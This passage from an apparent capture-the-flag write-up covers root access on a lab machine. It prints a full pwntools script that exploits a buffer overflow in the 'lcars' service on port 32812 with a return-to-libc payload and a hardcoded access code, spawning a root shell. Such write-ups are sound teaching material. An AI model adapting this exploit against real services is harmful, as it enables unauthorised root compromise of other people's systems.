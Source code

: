 ### Root Access
With the previous findings and the open port 32812 running the vulnerable service, the following python script was 
written to spawn a root shell, by exploiting the buffer overflow on *lcars*. 
Source code[^footnote]

```python
#!/usr/bin/env python2

import struct
from pwn import *

RHOST = '10.10.10.61'
RPORT = 32812


def conv (num):
    return struct.pack ('<I',num)


payload = 'A' * 212
payload += conv (0xf7e4c060) # system()
payload += conv (0xf7e3faf0) # exit()
payload += conv (0xf7f6ddd5) # 'sh'

sess = remote (RHOST, RPORT)
sess.recvuntil ("Enter Bridge Access Code: ")
sess.sendline ("picarda1")
sess.recvuntil ("Waiting for input: ")
sess.sendline ("4")
sess.recvuntil ("Enter Security Override:")
sess.sendline (payload)
sess.interactive ()
```
Executing the script, spawned a root shell back to the attacking host as shown in the screenshot given below.

![Root Shell](/assets/img/posts/enterprise/rootShell.png)

## Footnotes
[^footnote]:[https://github.com/pwnd-root/exploits-and-stuff/blob/master/lcarsRoot.py](https://github.com/pwnd-root/exploits-and-stuff/blob/master/lcarsRoot.py) 